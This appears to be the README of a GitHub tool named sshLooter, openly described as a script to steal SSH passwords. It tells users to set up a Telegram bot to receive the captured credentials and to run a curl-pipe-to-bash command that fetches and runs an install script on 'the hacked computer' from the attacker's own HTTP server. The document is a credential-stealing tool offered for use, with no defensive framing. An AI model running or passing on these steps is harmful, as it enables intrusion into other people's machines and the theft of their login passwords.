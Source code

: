 # sshLooter
Script to steal passwords from ssh.

# Install
<pre>
git clone https://github.com/mthbernardes/sshLooter.git
cd sshLooter
</pre>

# Configuration
<pre>
Edit the script on install.sh, and add your telegram bot api, and your userid.
Call the @botfather on telegram to create a bot and call the @userinfobot to get your user id.
</pre>

# Usage
<pre>
On your server execute.
python -m SimpleHTTPServer

On the hacked computer execute.
curl http://yourserverip:8000/install.sh | bash
</pre>

# Original script from
<a href="http://www.chokepoint.net/2014/01/more-fun-with-pam-python-failed.html" target="_blank">ChokePoint</a>
